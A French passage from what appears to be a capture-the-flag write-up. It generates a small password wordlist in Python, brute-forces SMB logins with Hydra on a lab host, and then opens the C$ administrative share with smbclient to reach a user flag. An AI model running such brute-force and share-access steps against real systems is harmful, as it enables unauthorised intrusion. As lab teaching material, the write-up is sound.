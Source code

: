 Ce *Russel* a visiblement une vision un peu faussée de ce qu'est un mot de passe fort :D  

Prenons le au jeu en générant une wordlist de ces mots de passe *\*secure\** :  

```python
from itertools import product

words = ['lollip0p','rain','summer','little','honey']
end  = [1,2,3,4,5]

for word, num in product(words, end):
    print("{}{}".format(word, num))
```

On balance ensuite tout ça à Hydra sur le port SMB :  

```plain
$ hydra -l russel -P words.txt smb://10.1.1.15
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-02-23 15:00:07
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:1/p:25), ~25 tries per task
[DATA] attacking smb://10.1.1.15:445/
[445][smb] host: 10.1.1.15   login: russel   password: little5
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-02-23 15:00:10
```

Gamma
-----

On a alors accès au disque :  

```plain
$ smbclient -I 10.1.1.15 -U russel -L BETA
Enter WORKGROUP\russel's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Connection to 10.1.1.15 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available

$ smbclient -I 10.1.1.15 -U russel '//beta/c$'
Enter WORKGROUP\russel's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\beta\c$\
```

Cet accès est suffisant pour obtenir le flag de l'utilisateur (436bf1fd7f32f885a38d920f7e7ddedb).  
